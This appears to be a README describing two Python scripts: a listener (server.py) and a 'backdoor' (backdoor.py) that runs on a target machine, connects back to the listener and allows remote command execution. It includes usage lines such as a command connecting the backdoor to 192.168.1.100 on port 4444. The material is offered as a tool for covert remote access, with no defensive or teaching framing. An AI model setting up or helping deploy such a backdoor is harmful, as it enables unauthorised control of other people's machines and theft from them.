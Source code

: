 

**server.py:**
- **Description:** This script sets up a server to listen for incoming connections on specified ports.
- **Usage:**
  - Execute `python server.py <port>` to start the server on a specific port.
  - Example: `python server.py 4444` to start the server on port 4444.
- **Features:**
  - Listens for incoming connections.
  - Handles multiple connections simultaneously.
  - Customizable port selection.
- **Requirements:**
  - Python 3.x
  - Sockets module (`import socket`)

**backdoor.py:**
- **Description:** This script establishes a connection from the target machine to the server for remote access.
- **Usage:**
  - Run `python backdoor.py <server_ip> <server_port>` on the target machine to connect to the server.
  - Example: `python backdoor.py 192.168.1.100 4444` to connect to the server at IP 192.168.1.100 on port 4444.
- **Features:**
  - Establishes a connection to the specified server and port.
  - Provides remote access to the target machine.
  - Allows for executing commands remotely.
- **Requirements:**
  - Python 3.x
  - Sockets module (`import socket`)
